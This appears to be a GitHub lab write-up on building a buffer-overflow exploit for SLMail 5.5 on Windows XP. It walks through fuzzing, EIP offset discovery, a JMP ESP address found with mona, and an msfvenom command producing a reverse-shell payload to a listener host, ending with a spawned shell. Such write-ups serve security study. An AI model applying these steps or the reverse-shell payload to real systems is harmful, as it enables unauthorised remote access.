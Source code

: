 # SLMail 5.5 exploit development


## Exploit background

Version: SLMail 5.5
Debugger use: Immunity Debugger
OS: Windows XP SP3 32 bit

## Development steps

1. Use fuzz.py to know how many A will get overflow.

    2600: will trigger the overflow, but it is not within the A range

    ![hashdump](../../images/slmail_fuzz.png)

    2700: will trigger the overflow, and EIP fill with A.

2. Use pattern to locate where EIP is

    ```
    locate pattern_create
    /usr/share/metasploit-framework/tools/exploit/pattern_create.rb -l 2700

    /usr/share/metasploit-framework/tools/exploit/pattern_offset.rb -l 2700 -q 39694438
    [*] Exact match at offset 2606
    ```

3. Observer and find that ESP is pointing to the begining of CCCCCC

    ![hashdump](../../images/slmail_bbbb.png)

4. Expand the payload from 2700 to 3500 by increase the length of CCCC section, Run again and confirm that this works.

    ![hashdump](../../images/slmail_fuzz2700.png)

5. Bad characters checker, badchars is \x00\0xa\0xd only, see code at bad_chars.py


6. Call `!mona modules`, the result is display on `Log data` windows, find that vulnserver.exe and vulnserver.dll is not protected.

    Openc32.dll
    SLMail.exe
    SLMFC.dll

    ![hashdump](../../images/slmail_mona.png)
    
7. Inspect the memory map on `Memory map` windows


8. /usr/share/metasploit-framework/tools/exploit/nasm_shell.rb

```
root@kali:~/Desktop/exercise/7_win_bufferoverflow/vulnserver# /usr/share/metasploit-framework/tools/exploit/nasm_shell.rb
jmp esp 
nasm > jmp esp
00000000  FFE4              jmp esp
```


9. use mona to find address => 0x5f4a358f

    `!mona find -s "\xff\xe4" -m slmfc.dll`

    ![hashdump](../../images/slmail_ffe4.png)

10. update the script to replace B with address `\x8f\x35\x4a\x5f`, set breakpoint at 0x5f4a358f



11. run pre_exploit.py, the breakpoint trigger and run to CCCCCC


12. Now create a payload and replace the CCC section

    ```
    msfvenom -p windows/shell_reverse_tcp LHOST=192.168.0.142 LPORT=443 EXITFUNC=thread -f c -e x86/shikata_ga_nai -b "\x00\x0a\x0d"
    ```

13. Create and run exploit.py, and a reverse shell is spawn.

    ![hashdump](../../images/slmail_shell.png) 

## Extra info

1. This process can only be attached, it is better to connect it first before attach.

2. It is very easy to fail attach, and kill the process when detach.
